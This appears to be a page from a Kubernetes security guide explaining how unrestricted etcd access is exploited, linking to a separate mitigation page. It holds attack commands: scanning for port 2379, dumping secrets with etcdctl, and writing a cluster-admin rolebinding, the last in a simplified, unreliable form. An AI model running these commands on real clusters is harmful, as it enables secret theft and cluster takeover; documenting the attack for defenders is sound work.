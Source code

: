 ```yaml
---
sidebar_position: 6
title: "Unrestricted etcd Access"
description: "How attackers exploit unrestricted access to etcd to retrieve Kubernetes secrets and take control of the cluster."
---
```


# Unrestricted etcd Access

**etcd** is the **key-value store** used by Kubernetes to store **configuration data, secrets, and cluster state**. If **unrestricted access** is allowed, attackers can retrieve sensitive information, escalate privileges, and take full control of the cluster.

---

## Exploitation Steps: Extracting Secrets from etcd

An attacker gains access to an **unprotected etcd instance** and extracts sensitive Kubernetes data.

### Step 1: Scan for Open etcd Endpoints

The attacker checks for an **exposed etcd API** on port **2379**:

```bash
nmap -p 2379 --open <cluster-ip-range>
```

If an open etcd instance is found, the attacker proceeds.

### Step 2: Query etcd for Cluster Data

If authentication is not enforced, the attacker directly queries etcd for Kubernetes secrets:

```bash
ETCDCTL_API=3 etcdctl --endpoints=<etcd-ip>:2379 get / --prefix --keys-only
```

### Step 3: Extract Kubernetes Secrets

The attacker retrieves stored credentials, service tokens, and API keys:

```bash
ETCDCTL_API=3 etcdctl --endpoints=<etcd-ip>:2379 get /registry/secrets --prefix
```

If etcd stores **admin credentials**, the attacker gains **full cluster control**.

### Step 4: Modify Cluster Configuration

If write access is enabled, the attacker modifies **Kubernetes RBAC settings** to escalate privileges:

```bash
ETCDCTL_API=3 etcdctl --endpoints=<etcd-ip>:2379 put /registry/rbac/rolebindings/cluster-admin '{"user": "attacker", "role": "cluster-admin"}'
```

### Result

The attacker has **complete control over Kubernetes**, allowing them to **modify workloads, access secrets, and delete cluster resources**.

---

## Mitigation Steps

To protect against **unrestricted etcd access**, follow the security best practices outlined in:

➡ **[Securing etcd in Kubernetes](/docs/best_practices/cluster_setup_and_hardening/etcd_security_mitigation)**

This guide covers techniques such as **enforcing TLS encryption, restricting access with RBAC, securing backups, and isolating etcd from untrusted networks** to prevent unauthorized access.
